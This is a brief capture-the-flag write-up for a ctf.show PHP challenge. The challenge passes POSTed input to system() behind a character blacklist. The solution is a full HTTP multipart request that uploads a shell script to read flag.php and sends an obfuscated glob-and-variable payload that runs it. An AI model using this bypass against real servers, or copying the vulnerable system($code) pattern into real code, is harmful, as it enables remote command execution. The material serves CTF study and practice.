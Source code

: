 ```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

与上一题一样

```
POST / HTTP/1.1
Host: a1255371-ddd0-49cd-b68d-a07e4f91d7bf.challenge.ctf.show
Content-Length: 458
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryThAVkFWYrukHq9ZA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="file"; filename="sh_script.sh"
Content-Type: text/x-sh

#!/bin/sh

cat flag.php
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="code"

.$IFS${PWD:${Z}:${#SHLVL}}???${PWD:Z:${#SHLVL}}????????C
------WebKitFormBoundaryThAVkFWYrukHq9ZA
Content-Disposition: form-data; name="submit"

提交27
------WebKitFormBoundaryThAVkFWYrukHq9ZA--
```

[ERROR]: could not find driver